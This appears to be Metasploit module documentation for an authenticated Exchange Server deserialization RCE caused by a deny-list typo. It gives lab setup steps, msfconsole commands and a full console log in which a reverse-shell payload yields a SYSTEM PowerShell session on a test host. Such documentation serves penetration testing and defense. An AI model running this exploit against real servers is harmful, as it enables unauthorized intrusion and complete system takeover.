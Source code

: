 ## Vulnerable Application

### Description
This vulnerability allows remote attackers to execute arbitrary code
on Exchange Server 2019 CU10 prior to Security Update 3, Exchange Server 2019 CU11
prior to Security Update 2, Exchange Server 2016 CU21 prior to Security Update 3,
and Exchange Server 2016 CU22 prior to Security Update 2.

Note that authentication is required to exploit this vulnerability.

The specific flaw exists due to the fact that the deny list for the
ChainedSerializationBinder had a typo whereby an entry was typo'd as
`System.Security.ClaimsPrincipal` instead of the proper value of
`System.Security.Claims.ClaimsPrincipal`.

By leveraging this vulnerability, attacks can bypass the
`ChainedSerializationBinder`'s deserialization deny list
and execute code as `NT AUTHORITY\SYSTEM`.

Tested against Exchange Server 2019 CU11 SU0 on Windows Server 2019.

### Setup

1. Set up a version of Windows Server 2019.
2. Download Exchange Server 2019 CU11 SU0 from https://download.microsoft.com/download/5/3/e/53e75dbd-ca33-496a-bd23-1d861feaa02a/ExchangeServer2019-x64-CU11.ISO
3. Follow the guide at https://petri.com/how-to-install-active-directory-in-windows-server-2019-server-manager to turn
the server into an AD server.
4. Mount the ISO and run `Setup.exe`. It should prompt you install .NET Framework, Visual Studio C++ Redistributables,
and Unified Communications Managed API. Install these and then reboot.
5. Follow https://www.nucleustechnologies.com/blog/step-by-step-guide-to-install-exchange-server-2019-part-1/ and
install the required features.
6. Keep running `Setup.exe` and installing extra dependencies as needed as per the links.
7. When you do get all dependencies installed, Exchange should give a button called `Install` which should no longer be
greyed out. Press this to install and accept any warnings that appear.
8. Go to https://*ip here*/owa/ and make sure you can see the Exchange Outlook login page.

## Verification Steps

1. Follow [Setup](#setup) to set up a vulnerable target.
2. `msfconsole`
3. `set RHOST <target IP address>`
4. `set LHOST <IP for target to connect back to>`
5. `set USERNAME <username of OWA user to log in as>`
6. `set PASSWORD <password for this OWA user>`
7. Optional: `set DOMAIN <domain of OWA user>`
8. Optional: `set VHOST <vhost of target>`
9. `exploit`
10. You should get a shell on the target as `NT AUTHORITY\SYSTEM` if it is vulnerable.

## Targets

### 0

`Exchange Server <= 2016 CU19 and 2019 CU8`

## Options

### USERNAME

Set this to the OWA username. This can also be set to a valid domain username that has permissions to log into Exchange.

### PASSWORD

Set this to the OWA password. This can also be set to the password for a domain user that has permissions to log into Exchange.

## Scenarios

### Exchange Server 2019 CU11 SU0 on Windows Server 2019 Fully Updated with February 2022 Patches

```
 ~/git/metasploit-framework │ exchange_cha…ist_typo_rce +2 !1 ?12  ./msfconsole

                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.1.29-dev-5431d3d0f6               ]
+ -- --=[ 2200 exploits - 1164 auxiliary - 400 post       ]
+ -- --=[ 600 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use sessions -1 to interact with the
last opened session

[*] Starting persistent handler(s)...
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/http/exchange_chainedserializationbinder_denylist_typo_rce
[*] Using configured payload cmd/windows/powershell_reverse_tcp
msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > set RHOST 172.24.137.15
RHOST => 172.24.137.15
msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > set USERNAME administrator
USERNAME => administrator
msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > set PASSWORD thePassword123!
PASSWORD => thePassword123!
msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > set LHOST 172.24.142.125
LHOST => 172.24.142.125
msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > show options

Module options (exploit/windows/http/exchange_chainedserializationbinder_denylist_typo_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   thePassword123!  no        OWA password
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS     172.24.137.15    yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   USERNAME   administrator    no        OWA username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         172.24.142.125   yes       The listen address (an interface may be speci
                                            fied)
   LOAD_MODULES                   no        A list of powershell modules separated by a c
                                            omma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Exchange Server


msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > exploit
[*] Started reverse TCP handler on 172.24.142.125:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exchange Server 15.2.986.5 is a vulnerable build.
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAAD+NAPdfxHOQog5PRD09yZZAAAB5UmI
[+] ID value for Inbox folder is AQMkADk4Nzg3MTk4LTdmMWItNDIwOC1hNjYAZC1hMDU4ZWYyMGEyNDYALgAAA63xDZKmFz1AgDziIaoT/0sBAP40A91/Ec5CiDk9EPT3JlkAAAIBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[+] Successfully deleted the user configuration object associated with the Inbox folder!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Powershell session session 1 opened (172.24.142.125:4444 -> 172.24.137.15:9132 ) at 2022-02-11 13:41:59 -0600

PS C:\windows\system32\inetsrv> whoami
nt authority\system
PS C:\windows\system32\inetsrv> hostname
DC1
PS C:\windows\system32\inetsrv>
```
